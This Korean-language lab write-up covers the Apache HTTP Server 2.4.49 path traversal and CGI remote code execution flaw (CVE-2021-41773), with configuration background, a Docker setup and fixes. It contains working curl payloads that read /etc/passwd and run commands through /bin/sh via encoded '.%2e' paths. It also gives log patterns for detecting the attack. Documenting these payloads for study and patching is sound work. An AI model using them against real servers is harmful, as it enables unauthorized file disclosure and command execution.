



# Apache HTTP Server 디렉토리 탐색 및 원격 코드 실행 취약점 (CVE-2021-41773)

## Apache HTTP Server 기본 설명

Apache HTTP Server는 Apache Software Foundation에서 개발하고 유지하는 오픈소스 웹 서버이다. 클라이언트가 HTTP 요청을 보내면 Apache는 설정 파일(`httpd.conf`)에 따라 정적 파일을 반환하거나, CGI 같은 모듈을 통해 동적 콘텐츠를 실행해 응답한다.

Apache의 기본 파일 제공 방식은 `DocumentRoot`를 기준으로 동작한다. Apache 공식 문서에 따르면 `DocumentRoot`는 서버가 파일을 제공하는 기준 디렉터리이며, `Alias` 같은 별도 매핑이 없으면 요청 URL 경로가 `DocumentRoot` 뒤에 붙어 실제 파일 경로로 해석된다.

예를 들어 다음 설정이 있다면:

```apache
DocumentRoot "/usr/local/apache2/htdocs"
```

요청 URL `/index.html`은 일반적으로 다음 파일로 매핑된다.

```text
/usr/local/apache2/htdocs/index.html
```

하지만 `Alias`나 `ScriptAlias`를 사용하면 URL 경로가 `DocumentRoot` 밖의 디렉터리로도 매핑될 수 있다. CVE-2021-41773은 이 URL 경로 정규화와 Alias 계열 경로 매핑 사이에서 문제가 발생한 취약점이다.

## 취약점 원리

Apache HTTP Server 2.4.49에서 URL 경로를 정규화(path normalization)하는 로직에 문제가 생겨 Path Traversal 취약점이 발생했다. 공격자는 인코딩된 `../` 패턴을 이용해 Alias 계열 지시어로 설정된 디렉터리 밖의 파일에 접근할 수 있다.

Apache 공식 보안 문서에 따르면, 일반적인 기본 보호 설정인 `Require all denied`로 보호되지 않는 파일은 이 요청을 통해 노출될 수 있다. 또한 CGI 스크립트가 활성화되어 있는 경우 원격 코드 실행(RCE)까지 이어질 수 있다.

영향을 받는 버전은 Apache HTTP Server 2.4.49이다. 2.4.50에서 한 차례 수정이 이루어졌지만 패치가 불완전하여 CVE-2021-42013이 추가로 발생했으므로, 실제 대응 시에는 2.4.51 이상으로 업데이트하는 것이 안전하다.

참고 문서:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://nvd.nist.gov/vuln/detail/CVE-2021-41773
- https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773
- https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013

## httpd.conf 설정과 취약 조건

Apache에서 경로 해석과 접근 제어에 중요한 설정은 `DocumentRoot`, `Alias`, `ScriptAlias`, `<Directory>`이다.

먼저 구분해야 할 점은 Apache의 안전한 기본 접근 제어 자체가 취약하다는 뜻은 아니라는 것이다. CVE-2021-41773은 Apache 2.4.49의 경로 정규화 버그가 원인이지만, 실제 파일 읽기나 RCE로 이어지려면 `httpd.conf`에서 `Directory` 접근 권한이 과도하게 열려 있거나 CGI 실행 기능이 켜져 있는 조건이 함께 필요하다.

```apache
DocumentRoot "/usr/local/apache2/htdocs"
```

`DocumentRoot`는 일반 웹 문서가 제공되는 기준 디렉터리이다. 반면 `Alias`는 특정 URL을 `DocumentRoot` 바깥의 실제 파일 시스템 경로와 연결한다.

```apache
Alias "/icons/" "/usr/local/apache2/icons/"
```

위 설정이 있으면 `/icons/`로 시작하는 URL은 `/usr/local/apache2/htdocs/icons/`가 아니라 `/usr/local/apache2/icons/` 아래 파일로 해석된다. Apache 공식 문서도 `Alias`가 `DocumentRoot` 밖의 파일을 URL로 노출할 때 사용된다고 설명한다.

CVE-2021-41773이 실제 파일 읽기로 이어지려면 Apache 2.4.49의 경로 정규화 버그뿐 아니라, `Require all denied` 같은 기본 보호가 약해진 설정이 함께 있어야 한다. 접근 제어는 보통 `<Directory>` 블록에서 관리되는데, 실습 환경처럼 파일 시스템 루트에 대해 접근을 허용하면 문제가 커진다.

```apache
<Directory />
    Require all granted
</Directory>
```

이런 설정에서는 Path Traversal로 `/etc/passwd` 같은 `DocumentRoot` 밖의 파일에 도달했을 때 Apache가 접근을 차단하지 못한다. 즉, 취약점의 핵심은 "2.4.49의 정규화 버그 + Alias 계열 경로 + 과도하게 열린 Directory 권한"이 결합되는 것이다.

`ScriptAlias`가 함께 설정되어 있으면 위험도가 더 커진다.

```apache
ScriptAlias "/cgi-bin/" "/usr/local/apache2/cgi-bin/"
```

Apache 공식 문서에 따르면 `ScriptAlias`는 `Alias`처럼 URL을 파일 시스템 경로에 매핑하면서, 해당 대상을 CGI 스크립트로 실행하도록 지정한다. 따라서 `/cgi-bin/` 경로에서 Path Traversal이 성공하고 CGI 실행 모듈이 활성화되어 있으면, 단순 파일 읽기를 넘어 명령 실행으로 이어질 수 있다.

## 환경 구축

컴파일 및 실행 환경:

```bash
docker compose build
docker compose up -d
```

서버가 실행되면 Apache 기본 페이지를 확인한다. `docker-compose.yml`에서는 호스트 `8001` 포트를 컨테이너 `80` 포트로 매핑했다.

```text
http://your-ip:8001/
```

## CGI와 cgid 모듈

CGI(Common Gateway Interface)는 웹 서버가 외부 프로그램을 실행하고 그 결과를 HTTP 응답으로 돌려주는 오래된 동적 콘텐츠 실행 방식이다. Apache 공식 문서에 따르면 `cgi-script` 핸들러가 붙은 파일은 CGI 스크립트로 처리되며, `ScriptAlias` 디렉터리 안에 있는 파일도 CGI 스크립트로 실행될 수 있다.

Apache에서 CGI 지원은 `mod_cgi` 또는 `mod_cgid`가 제공한다.

- `mod_cgi`: CGI 프로그램을 서버 프로세스에서 직접 실행한다.
- `mod_cgid`: 별도의 외부 데몬이 CGI 프로세스를 관리한다.

Apache 공식 CGI 문서는 스레드 기반 MPM(`event`, `worker`)에서는 `mod_cgid`가 필요하고, 설정 관점에서는 `mod_cgi`와 `mod_cgid`가 거의 동일하게 동작한다고 설명한다. `mod_cgid` 문서도 이 모듈이 외부 CGI 데몬을 생성해 CGI 스크립트 실행용 자식 프로세스를 관리한다고 설명한다. 즉, RCE 재현 관점에서는 `cgi_module`이든 `cgid_module`이든 CGI 실행 기능이 켜져 있다는 점이 중요하다.

Path Traversal을 통한 파일 읽기뿐 아니라 RCE를 확인하려면 `cgi` 또는 `cgid` 모듈이 활성화되어 있어야 한다. 실습 컨테이너에서 `httpd.conf`를 확인한 결과 `cgid_module`이 로드되어 있었다.

```bash
cat httpd.conf | grep cgid
```



## 취약점 재현

### 1. Path Traversal을 통한 파일 읽기

Apache 2.4.49의 취약한 정규화 로직은 두 번째 점을 URL 인코딩한 `.%2e/` 형태를 제대로 차단하지 못한다. 이를 반복하면 웹 루트 밖의 파일에 접근할 수 있다.

여기서 `/icons/`를 선택한 이유는 Apache 기본 설정에서 `Alias`로 등록되는 실제 디렉터리이기 때문이다. Apache 설정에는 다음과 같은 형태의 매핑이 사용된다.

```apache
Alias "/icons/" "/usr/local/apache2/icons/"

<Directory "/usr/local/apache2/icons">
    Options Indexes MultiViews
    AllowOverride None
    Require all granted
</Directory>
```

`Alias`는 `/icons/` URL을 `DocumentRoot`가 아닌 `/usr/local/apache2/icons/`에 연결한다. CVE-2021-41773은 "Alias-like directives"로 설정된 디렉터리 밖 파일에 접근할 수 있는 취약점이므로, PoC에서는 실제로 존재하고 Alias로 매핑된 `/icons/`를 시작점으로 삼는다. 존재하지 않는 경로를 사용하면 Apache가 매핑할 기준 디렉터리를 찾지 못해 재현이 실패할 수 있다.

`curl`은 기본적으로 URL 경로를 정규화할 수 있으므로, PoC 검증 시 `--path-as-is` 옵션을 사용한다.

```bash
curl -v --path-as-is "http://your-ip:8001/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

실습에서 사용한 명령은 다음과 같다.

```bash
curl -v --path-as-is "http://192.168.144.128:8001/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

요청이 성공하면 컨테이너 내부의 `/etc/passwd` 파일 내용이 응답으로 출력된다.



### 2. CGI를 통한 원격 코드 실행

서버에서 CGI 또는 CGID 모듈이 활성화되어 있으면 Path Traversal을 이용해 `/bin/sh`를 호출하고 요청 본문에 전달한 명령을 실행할 수 있다.

```bash
curl -v --data "echo;id" "http://your-ip:8001/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
```

실습에서 사용한 명령은 다음과 같다.

```bash
curl -v --data "echo;id" "http://192.168.144.128:8001/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
```

응답에 `uid=1(daemon) gid=1(daemon)`과 같은 결과가 출력되면 컨테이너 내부에서 `id` 명령이 실행된 것이다.



## 대응 방법

CVE-2021-41773에 대응하려면 Apache HTTP Server를 2.4.51 이상으로 업데이트하는 것이 가장 중요하다. 2.4.50은 CVE-2021-41773에 대한 수정이 불완전해 CVE-2021-42013으로 이어졌으므로, 2.4.50이 아니라 2.4.51 이상으로 올리는 것이 안전하다.

설정 측면에서는 파일 시스템 루트(`/`)에 대한 기본 차단을 유지해야 한다.

```apache
<Directory />
    AllowOverride None
    Require all denied
</Directory>
```

이후 실제로 웹에서 제공할 디렉터리에 대해서만 필요한 범위로 접근을 허용한다.

```apache
<Directory "/usr/local/apache2/htdocs">
    Require all granted
</Directory>
```

추가로 다음 항목을 점검한다.

1. Apache HTTP Server를 2.4.51 이상으로 업데이트한다.
2. 파일 시스템 루트에 대해 `Require all denied` 설정을 유지한다.
3. 불필요한 `mod_cgi`, `mod_cgid` 모듈을 비활성화한다.
4. `Alias`, `ScriptAlias`, `Directory` 설정을 점검한다.
5. 접근 로그에서 `.%2e`, `%2e%2e`, `cgi-bin/.%2e` 같은 요청 패턴을 확인한다.

## 정리

CVE-2021-41773은 Apache HTTP Server 2.4.49의 경로 정규화 로직 문제로 발생한 Path Traversal 및 File Disclosure 취약점이다. 기본적으로는 파일 읽기 취약점으로 설명되지만, CGI 또는 CGID가 활성화된 잘못된 설정에서는 원격 코드 실행까지 가능하다.
